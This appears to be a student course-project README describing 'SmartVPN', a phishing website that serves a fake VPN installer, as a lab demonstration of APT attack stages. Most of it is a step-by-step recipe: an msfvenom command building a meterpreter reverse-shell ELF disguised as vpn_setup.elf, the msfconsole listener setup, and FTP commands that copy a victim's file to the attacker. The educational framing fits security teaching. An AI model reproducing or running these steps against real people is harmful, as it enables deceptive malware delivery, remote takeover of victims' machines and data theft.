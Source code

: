 ## SmartVPN

This is a repository containing code for demonstration of APT attacks for Introduction to Cyber Security Coursework @ IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

Note: This is only for educational purposes!


## Project Contributors

- Pranauv Kumar - S20210010186
- Rahul Agarwal - S20210010187
- Sai Swetha M - S20210010143
- Anurag Yadav - S20210010026

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firstly, Clone the project to have the Fake VPN Website ready for the victim to download the malicious VPN setup file. 

```bash
git clone https://github.com/Pranauv-Kumar1803/ICS.git
```

Go to the project directory

```bash
cd ICS
```

Install dependencies in both client and server folder

```bash
npm install
```

Start the server

```bash
npm start
```

Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole (Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for Ubuntu.

From here, we access the SmartVPN website that is hosted on "192.168.100.4:8000" and download the vpn setup from the website and we run it!

Boom! Now, we have a hit in Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect to the attacker's computer from the victim's shell in the msfconsole to exfiltrate some data (some random dummy.pdf files from victim's computer)

To do this, type the following in the shell spawned in the Kali Linux's Msfconsole,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
```

"put" command of FTP, sees the "dummy.pdf" in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Hence, we are done with the whole demonstration of APT!
